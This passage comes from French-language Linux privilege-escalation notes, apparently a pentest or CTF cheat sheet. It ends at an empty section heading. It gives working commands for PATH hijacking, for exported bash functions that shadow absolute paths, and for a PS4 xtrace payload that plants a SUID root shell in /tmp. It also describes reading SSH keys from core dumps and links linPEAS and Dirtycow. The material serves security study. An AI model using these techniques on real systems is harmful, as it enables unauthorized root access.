 - **Variables d'environnements** :
    Si un programme exécuté par root lance des binaires avec un chemin non absolu (/usr/bin/echo = absolu, echo = relatif), on peut détourner son utilisation comme suit :
    
    ```
    echo /bin/bash > [commande_effectuée_par_le_programme_exploitable] //redéfinition de la commande
    chmod 777 [fichier_créé_par_la_commande_précédente]
    export PATH=[dossier_courant_absolu]:$PATH //on rajoute notre dossier à $PATH afin que le programme aille chercher si la commande existe dans le répertoire où on est .
    
    ```
    
- **Abusing shell features** :
    Si un programme est exécuté avec son chemin absolu ET que la version de bash est inférieure à 4.2-048 (`/bin/bash --version`), on peut définir une
    fonction bash avec le nom absolu de l'exécutable.
    
    ```
    function /usr/bin/foo {/bin/bash -p}
    export -f /usr/bin/foo
    
    ```
    
- **Abusing shell features (2)** :
    Version de bash inférieure à 4.4. Mode débugage avec la variable d'env. PS4 sur un fichier foo.
    `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' foo`
    
- **Signaux**
    
    1.  Description : Un signal est une notification, un message envoyé à un processus pour lui indiquer un événement système. Il en existe 64 différents, et leur appel permettent de générer un fichier CoreDump.
        Un core dump est un fichier qui contient une trace de la mémoire vive d'un programme qui, après avoir été exécuté, s'est crashé. Les informations de la mémoire vive qu'ils contiennent peuvent permettre une privesc, entre autre.
        Par exemple, un exécutable qui lit un fichier privé (clé ssh), sans output de retour, pourrait être crashé volontairement pour qu'on puisse lire le contenu de ce fichier privé.
    2.  Pratique :
        - `man signal` : liste des signaux
        - `kill -[signal_id] -[pid]` : envoie le signal spécifié au processus
        - Le fichier de CoreDump peut être généré à différent endroit, notamment :
            - `/var/crash` sous forme de fichier `.crash`

## 5) **Scripts automatisés**

- Scripts PEAS : https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS.
- Script kernel : https://github.com/jondonas/linux-exploit-suggester-2

## 6) **Kernel exploit**

- Dirtycow est une vulnérabilité du noyau linux.
    Lien git : `https://github.com/dirtycow/dirtycow.github.io`.

## 7) **Variables d'environnements**
